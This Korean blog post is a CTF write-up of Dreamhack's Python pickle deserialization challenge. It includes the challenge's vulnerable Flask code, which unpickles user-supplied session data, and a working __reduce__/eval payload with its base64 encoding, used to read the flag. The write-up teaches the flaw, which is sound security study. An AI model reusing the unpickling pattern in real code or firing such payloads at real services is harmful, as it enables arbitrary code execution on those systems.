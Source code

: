 ```yaml
---
title: (26) Dreamhack web-deserialize-python 문제 풀이
date: 2024-02-01 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Session Login이 구현된 서비스입니다.  
Python(pickle)의 Deserialize 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt 또는 FLAG 변수에 있습니다.

## 문제 풀이
사이트에는 아래의 두 페이지가 있습니다.
![](https://kyuyeop.github.io/assets/img/post/26/1.png)
![](https://kyuyeop.github.io/assets/img/post/26/2.png)
세션 만드는 것 부터 보면
![](https://kyuyeop.github.io/assets/img/post/26/3.png)
`asdf / 1234 / password!` 로 입력했더니
![](https://kyuyeop.github.io/assets/img/post/26/4.png)
```
gAN9cQAoWAQAAABuYW1lcQFYBAAAAGFzZGZxAlgGAAAAdXNlcmlkcQNYBAAAADEyMzRxBFgIAAAAcGFzc3dvcmRxBVgJAAAAcGFzc3dvcmQhcQZ1Lg==
```
위와 같은 문자열을 주네요. 좀 공부하신 분들은 아실테지만 `==`으로 끝나는거 보니 base64 인코딩을 하는것 같습니다.  
그럼 위 문자열로 세션를 체크해봅시다.
![](https://kyuyeop.github.io/assets/img/post/26/5.png)
이렇게 원래 세션을 만들때 넣었던 값들이 나타납니다.  
  
이제 코드를 한번 보겠습니다.
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, redirect
import os, pickle, base64

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read() # Flag is here!!
except:
    FLAG = '[**FLAG**]'

INFO = ['name', 'userid', 'password']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/create_session', methods=['GET', 'POST'])
def create_session():
    if request.method == 'GET':
        return render_template('create_session.html')
    elif request.method == 'POST':
        info = {}
        for _ in INFO:
            info[_] = request.form.get(_, '')
        data = base64.b64encode(pickle.dumps(info)).decode('utf8')
        return render_template('create_session.html', data=data)

@app.route('/check_session', methods=['GET', 'POST'])
def check_session():
    if request.method == 'GET':
        return render_template('check_session.html')
    elif request.method == 'POST':
        session = request.form.get('session', '')
        info = pickle.loads(base64.b64decode(session))
        return render_template('check_session.html', info=info)

app.run(host='0.0.0.0', port=8000)
```
`create_session` 페이지는 `name, userid, password`를 post로 받아서 `dict`로 만들고 그걸 base64로 인코딩해서 보여주는듯 합니다.  
  
`check_session` 페이지는 post로 base64인코딩된 문자열을 받고 디코딩해서 `pickle`로 로드 합니다. 실제로 그런가 확인해봅시다.  
  
이렇게 base64 생성 부분을 모방해서 만들어 봤습니다. 값은 아무거나 넣었습니다.
```python
import pickle, base64

info = {'name': 'test', 'userid': '0000', 'password': 'testpw'}

print(base64.b64encode(pickle.dumps(info)).decode('utf-8'))
```
의 실행결과인 `gASVNwAAAAAAAAB9lCiMBG5hbWWUjAR0ZXN0lIwGdXNlcmlklIwEMDAwMJSMCHBhc3N3b3JklIwGdGVzdHB3lHUu`를 `check_session`페이지에 넣어보면
![](https://kyuyeop.github.io/assets/img/post/26/6.png)
입력값이 잘 나옵니다.  
  
이때 `pickle`을 이용해서 base64을 처리하기에 `pickle deserialize` 취약점이 발생합니다.
### pickle deserialize(unpickling) 취약점
이 취약점은 `pickle`이 데이터를 `loads` 하는 과정에서 발생합니다.  
이때 내장 함수인 `__reduce()__`에서 발생합니다. 이 메소드는 객체의 계층구조를 `unpickling`할때 객체를 재구성하는 것에 대한 `tuple`을 반환하는 메소드입니다. 이때 호출 가능한 객체가 있으면 인수를 가져와서 실행해보는데, 이때 취약점이 발생한다고 합니다.  
  
보통 아래와 같은 코드를 이용해 payload를 만든다고 합니다.
```python
class Exploit:
    def __reduce__(self):
        cmd = "print('It can print or something')"
        return (eval, (cmd,))

payload = pickle.dumps(Exploit())
print(payload)
```  
<br>
  
위 내용을 이해했다면 이를 이용해볼 수 있겠죠.  
위의 두 코드를 조합해 아래와 같은 페이로드를 만들었습니다. 변수나 `flag.txt`에 있다고 했으므로 `cmd`를 `flag.txt`를 읽어 반환하도록 `"open('flag.txt').read()"`로 정했습니다.
```python
import pickle, base64

class Exploit:
    def __reduce__(self):
        cmd = "FLAG"
        return (eval, (cmd,))

info = {'name': Exploit()}

print(base64.b64encode(pickle.dumps(info)).decode('utf-8'))
```
실행하면 `gASVKgAAAAAAAAB9lIwEbmFtZZSMCGJ1aWx0aW5zlIwEZXZhbJSTlIwERkxBR5SFlFKUcy4=`라는 문자열이 나오고, 이를 `check_session`페이지에 넣어보면
![](https://kyuyeop.github.io/assets/img/post/26/7.png)
이렇게 flag가 출력됩니다.
{% endraw %}